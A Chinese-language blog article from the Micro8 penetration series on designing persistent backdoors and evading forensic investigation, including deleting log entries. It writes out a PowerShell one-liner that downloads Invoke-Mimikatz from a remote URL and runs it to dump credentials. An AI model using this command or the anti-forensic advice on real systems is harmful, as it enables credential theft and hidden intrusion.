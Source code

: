 ```yaml
---
title: 59、高级持续渗透-第三季关于后门补充二
date: 2019-09-21 19:05:46
comments: true
categories: 
 - Micro8系列
---
```



**前者的话：**从第三季开始引入段子，让本枯燥的学术文章，也变得生动有趣。

第二季的Demo遵循人性五条来设计，回忆这其中五条：

**1：攻击方与防御方的本质是什么？**
增加对方的时间成本，人力成本，资源成本（不限制于服务器资源），金钱成本。  

**2：安全公司的本质是什么？**
盈利，最小投入，最大产出。  

**3：安全公司产品的本质是什么？**
能适应大部分客户，适应市场化，并且适应大部分机器。（包括不限制于资源紧张，宽带不足等问题的客户）  

**4：安全人员的本质是什么？**
赚钱，养家。买房，还房贷。导致，快速解决客户问题（无论暂时还是永久性解决），以免投诉。  

**5：对接客户的本质是什么？**
对接客户也是某公司内安全工作的一员，与概念4相同。  

**6:线索排查与反线索排查**
那么这个demo离可高级可持续性渗透后门还有一段距离，这里引入第六条“**线索排查**”与“**反线索排查**”，在第二季的demo中，它生成了一个名为micropoor.txt的文件，如果经验丰富的安全人员可根据时间差来排查日记，demo的工作流程大致是这样的，打开notepad++，生成micropoor.txt，写入内容，关闭文件流。根据线索排查，定位到notepad++，导致权限失控。

在线索排查概念中，这里要引入“ABC”类线索关联排查，当防御者在得到线索A，顺藤到B，最后排查到目标文件C，根据五条中的第一条，demo要考虑如何删除指定日志内容，以及其他操作。来阻止ABC类线索关联排查。

**不要思维固死在这是一个nontepad++后门的文章，它是一个面向类后门，面向的是可掌握源码编译的类后门。**同样不要把思维固定死在demo中的例子，针对不同版本的NT系统，完全引用“powershell IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1');Invoke-Mimikatz”而关于bypass
UAC，已经有成熟的源码。或发送至远程或是写在本地的图片里，不要让知识，限制了后门的想象。这也正是第一季所说的：一个优秀的Microdoor是量身目标制定且一般不具备通用性的。是的，**一般不具备通用性**。

观看目前文章的一共有2类人，一类攻击方，一类防守方。假设一个场景，现在摆在你面前有一台笔记本，并且这台笔记本有明确的后门，你的任务，排查后门。我想所有人都会排查注册表，服务，端口，进程等。因为这些具备通用性，也同样具备通用性排查手段。

临近文章结尾，第三次引用：**在后门的进化对抗中，rootkit也发生了变化，最大的改变是它的系统层次结构发生了变化。**如果彻底理解了这段话。那么就要引用王健X爸爸的一句话：先定个小目标，控它个1825天。

/*
段子
*/

奈何厂商不重视后渗透攻击与持久性攻击，文章的结尾引用马X爸爸的一句话：厂商不改变，我们就改变厂商。

>   Micropoor
